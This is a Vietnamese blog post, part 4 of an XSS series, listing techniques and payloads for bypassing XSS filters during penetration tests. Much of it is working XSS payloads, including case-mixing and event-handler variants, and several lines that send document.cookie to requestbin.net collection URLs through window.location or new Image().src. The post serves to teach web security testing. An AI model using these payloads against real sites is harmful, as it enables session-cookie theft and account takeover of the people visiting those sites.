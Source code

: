 ```yaml
---
layout: post
title: Cross Site Scripting (XSS) [Part 4] - Các phương pháp bypass filter XSS,
date: 2021-05-23 00:32:20 +0700
description: Tìm hiểu về lỗi Cross Site Scripting trên ứng dụng web - P4,
img: 2021/05/23/210523_xss_filter.jpg
fig-caption: # Add figcaption (optional)
tags: [Security, WebSecurity]
---
```

Trong quá trình pentest ứng dụng có thể gặp nhiều trường hợp các payload XSS bị filter, làm thế nào để có thể bypass quá trình filter đó. Bài viết này chúng ta sẽ sẽ cùng nhau trao đổi một số phương pháp để thực hiện việc này. 

>PS: Chủ đề này tôi cũng không định ngồi viết một lèo là xong, sẽ viết dần dần theo năm tháng dựa trên những kinh nghiệm của mình tích lỹ được. Do vậy lâu lâu các bạn vào ngó nha có thể có nội dung mới nha. Ok, bắt đầu thôi.

**Nhắc lại:** Các cách bypass XSS phụ thuộc vào khả năng làm sạch input (thực hiện bởi WAF hoặc Ứng dụng). Có một vài cơ chế của việc này như:
* Trả lại lỗi, loại bỏ, encode, hoặc thay thế các input không hợp lệ. 
* Một số có thể dùng blacklist hoặc whitelist các ký tự thường gặp trong payload để ngăn chặn XSS.

Tùy thuộc vào cơ chế filter mà có các cách bypass khác nhau. Nếu ví quá trình filter như người bảo vệ ứng dụng web thì quá trình bypass là quá trình luồn lách để qua mặt những người bảo vệ này. Khó thể nói có công thức nào tuyệt đối mà là sự tùy cơ ứng biến cho phù hợp từng hoàn cảnh. Hãy nhớ điều này.


## Các load js nguyên thủy (Không mask) huyền thoại 
### Alert message
```<script>alert(1);</script>```

### Dùng window location
```<script>window.location="http://requestbin.net/r/9d4pj5wl?c=".concat(document.cookie)</script>```

### Dùng image
```<script>new Image().src="http://requestbin.net/r/9d4pj5wl?c=".concat(document.cookie);</script>```

## Các payload sử dụng mask
### Case sensitive
```<SCRIPT>alert(1);</SCRIPT>```

```<ScRipT>alert(1);</sCriPt>```
### Lọc thẻ script
* Insert thêm ký tự trình duyệt hay bỏ qua (Tab, escape)

```<script  >alert(1);</script   >```

* Không dùng thẻ script

```<img src=x onerror=window.location="http://requestbin.net/r/5h067g6l?c=".concat(document.cookie)>```

```<video src=1 onerror=alert(1)>```

```<audio src=1 onerror=alert(1)>```

```<button autofocus onfocus=window.location="http://requestbin.net/r/5h067g6l?c=".concat(document.cookie)></button>```

```<a onmouseover=window.location="http://requestbin.net/r/5h067g6l?c=".concat(document.cookie)>xxs link</a>```

